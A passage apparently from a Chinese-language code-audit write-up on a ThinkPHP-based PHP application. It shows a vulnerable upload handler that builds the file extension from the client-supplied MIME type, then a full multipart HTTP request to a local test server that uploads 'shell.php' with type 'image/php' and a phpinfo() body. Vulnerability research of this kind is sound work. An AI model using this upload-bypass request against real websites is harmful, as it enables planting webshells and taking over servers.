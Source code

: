 ```plain
        $type = str_replace('image/', '.', $_FILES['file']['type']);
        $imgURL_name = time() . mt_rand(1, 1000) . $type;
        move_uploaded_file($imgURL, $uploadImg . $imgURL_name);
        echo $imgURL_name;
    }
```

和刚刚看到的后台内容类似，也是替换后拼接可以控制后缀，尝试上传  
因为是基于 TP 的因此我们构造接口调用，直接上传报错

```plain
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 243
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[![](assets/1710900899-ee0054d594656d18c2b434cbfc0ed268.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142054-dc17a2d6-d793-1.png)
